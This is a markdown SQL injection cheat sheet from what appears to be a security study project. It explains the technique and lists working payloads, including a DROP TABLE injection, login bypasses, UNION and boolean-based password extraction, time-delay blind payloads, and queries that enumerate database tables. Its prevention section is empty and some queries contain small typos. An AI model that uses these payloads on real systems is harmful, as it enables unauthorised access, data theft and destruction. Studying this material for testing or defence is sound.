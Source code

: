 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

# SQL Injection(SQLi)
SQL injection allows an attacker to make unwanted requested queries or modifications to the database.

Let's assume the server makes this query with user input. `SELECT * FROM users WHERE = 'userInput';`

If the user were to input `' OR 1=1; DROP TABLE users; --` the resulting query would be `SELECT * FROM users WHERE = '' OR 1=1; DROP TABLE users; -- ';`.

This attack allowed the user to drop the table when it should be allowed.
- `'` ended the user input's string
- `OR 1=1;` allowed the previous query to return true
- `--` commented the following `'` that was there from the server's query
	- Comments could sometime be `#`

## Table of Contents
<!-- TOC -->

- [SQL InjectionSQLi](#sql-injectionsqli)
	- [Table of Contents](#table-of-contents)
	- [Common SQLi attacks](#common-sqli-attacks)
		- [Logins](#logins)
	- [How do you know the website is using SQL?](#how-do-you-know-the-website-is-using-sql)
	- [How do you know which SQL database is being used?](#how-do-you-know-which-sql-database-is-being-used)
	- [How do you know what all the tables are in the db?](#how-do-you-know-what-all-the-tables-are-in-the-db)
	- [How do you know what all the columns in a table are?](#how-do-you-know-what-all-the-columns-in-a-table-are)
	- [Types of SQLi](#types-of-sqli)
		- [Boolean based SQLi](#boolean-based-sqli)
		- [Blind SQLi](#blind-sqli)
	- [How to prevent SQLis](#how-to-prevent-sqlis)

<!-- /TOC -->

## [Common SQLi attacks](#table-of-contents)
- `' OR 1=1; YOUR INJECTION HERE; --`
- `' UNION SELECT column FROM table; --`
	- When getting back a query you sometimes need an exact amount of columns. Use `, 1` to get this.
		- Ex: `' UNION SELECT column, 1, 1 FROM table; --` 3 columns

- `0'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z`
	- Possibly bypasses filters

### [Logins](#table-of-contents)
Bypassing logins
- `SELECT id FROM users WHERE password = '' AND username = ''` or `SELECT id FROM users WHERE username = '' AND password = ''`
	- Whichever is first, username input or password input: `' OR 1=1; --`

`admin'--`
`administrator'--`

## [How do you know the website is using SQL?](#table-of-contents)
- Look for SQL keywords in source code which may tell you what they are using.
- Input single quote `'` and look for errors
- Input some SQL and see how that changes the responses. Ex: `ASCII(97)`
	- How does this work?

## [How do you know which SQL database is being used?](#table-of-contents)
- MySQL: `SELECT VERSION();`
- Postgres: `SELECT version();`
- SQL Server: `SELECT @@VERSION;`
- Oracle: `SELECT * FROM v$version`
- SQLite: `SELECT sqlite_version();`
	- https://www.techonthenet.com/sqlite/sys_tables/index.php
- IBM Db2: `SELECT * FROM sysibm.sysversions;`

## [How do you know what all the tables are in the db?](#table-of-contents)
- MySQL: `SHOW TABLES;`
- Postgres, SQL Server: `SELECT * FROM information_schema.tables`
- Oracle: `SELECT table_name FROM user_tables;`
- SQLite: `SELECT name FROM sqlite_master;`
- IBM Db2: `SELECT tabname FROM syscat.tables'`

## [How do you know what all the columns in a table are?](#table-of-contents)
- MySQL and Oracle: `DESCRIBE table_name;` or `SHOW COLUMNS FROM table_name;`
- Postgres, SQL Server: `SELECT COLUMN_NAME from information_schema.columns where table_name = 'table_name'`
- SQLite doesn't have this feature.
- IBM Db2: `SELECT colname FROM syscat.columns WHERE tabname = 'table_name';`

## [Types of SQLi](#table-of-contents)

### [Boolean based SQLi](#table-of-contents)
Boolean based SQLi happen when you only get a boolean value back from your SQLi and you have to extract information through this boolean value.
- Determine if it is a boolean based SQLi
	- The output from `' OR 1=1; --` is different from `' OR 1=2; --`

- `AND (SELECT 'a' FROM users WHEN username='admin')='a'; -- `
	- Returns 'a' when there is a admin username. Which returns true.
	- Used to find if there is that username in users
- `AND (SELECT substring(password,1,1) FROM users WHERE username='admin')='a'; --`
	- used to extract the password one character at a time from the admin user
	- Next time 'a' will be changed to 'b' etc
	- substring(column, index, length)
	- Used to guess and check one character at a time for the password
	- Useful when you are getting back boolean information, but need to reconstruct a string

- Look at the response differences between 

### [Blind SQLi](#table-of-contents)
Blind SQLi are where the attacker cannot see any responses, including errors, from the db.

- Time based attacks
	- Payloads designed to trigger time delays. Ex: `'; WAITFOR DELAY ('0:0:20');--` or `SELECT SLEEP(20);--`
- Out-of-bound network interactions - the attacker injects SQL which triggers the database to communicate with the attacker's server.

## [How to prevent SQLis](#table-of-contents)
- 

`SELECT * FROM products WHERE category = 'Gitfs' OR 1=1 --'`
	- Selects products which has the category of gifts or where 1=1(which is true). This results in returning all the products regardless of the category.
